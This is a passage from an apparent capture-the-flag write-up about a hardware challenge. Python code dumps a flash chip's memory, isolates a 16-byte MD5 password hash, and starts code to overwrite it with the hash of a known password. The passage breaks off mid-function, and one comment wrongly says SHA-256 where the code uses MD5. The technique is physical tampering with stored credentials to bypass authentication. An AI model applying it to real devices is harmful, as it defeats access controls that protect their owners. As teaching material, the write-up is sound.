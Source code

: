Updating the client once more to only hold entries that match this size will filter out all the unrelated entries.

```python
# Read Data
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
mem_data = exchange([0x03, 0x00, 0x00, 0x00], 4096)


# Split data into entries based on null termination
from itertools import groupby

entries = [list(group) for k, group in groupby(mem_data, lambda x: x == 0) if not k]

# Find any entry with a size of 16
target_entry = next((sublist for sublist in entries if len(sublist) == 16), None)

print(target_entry)
```

The client only returns one entry this time, which presumably is the MD5 hash. 

```
[124, 171, 231, 2, 146, 107, 86, 137, 154, 128, 103, 213, 231, 167, 106, 30]
```

#### Modifying Data Entries

The description states that the hash is uncrackable, so we need to find another way to bypass this password protection. Since we have physical access to the flash memory containing the hash used for the password verification a valid apparoach would be to modify the data and change the MD5 hash with one of known value.

>  As our code grows, it's wise to structure it with clearly defined functions and to use variables for instruction codes. This strategy not only streamlines code expansion but also makes debugging more straightforward, enhancing both development speed and code maintainability. 

Before we write the data back we need to:

1.  identify the possition in the memory where the hash is located
2. generate a new MD5 hash
3. replace the data of the original hash (while maintaining the null terminators)

```python
import socket
import json
import binascii
import struct
import copy
import hashlib


# INSTRUCTION BYTES
READ = 0x03
READ_SECURITY_REGISTER = 0x48
PAGE_SIZE = 256

def new_pass(secret_value):
    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(secret_value.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    hashed_value = list(hashed_value)
    return hashed_value

def write_pages(pages):
```